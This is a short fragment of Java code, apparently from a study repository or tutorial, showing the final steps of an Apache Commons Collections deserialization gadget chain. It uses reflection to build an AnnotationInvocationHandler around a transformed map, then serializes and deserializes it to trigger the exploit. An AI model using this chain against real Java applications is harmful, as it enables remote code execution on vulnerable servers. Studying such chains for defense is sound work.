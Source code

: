 ```java
        Constructor annotationInvocationhdlConstructor = c.getDeclaredConstructor(Class.class, Map.class);
        annotationInvocationhdlConstructor.setAccessible(true);
        Object o = annotationInvocationhdlConstructor.newInstance(SuppressWarnings.class, transformedmap);
        byte[] se = serialize(o);
        deserialize(se);
    }
}
```

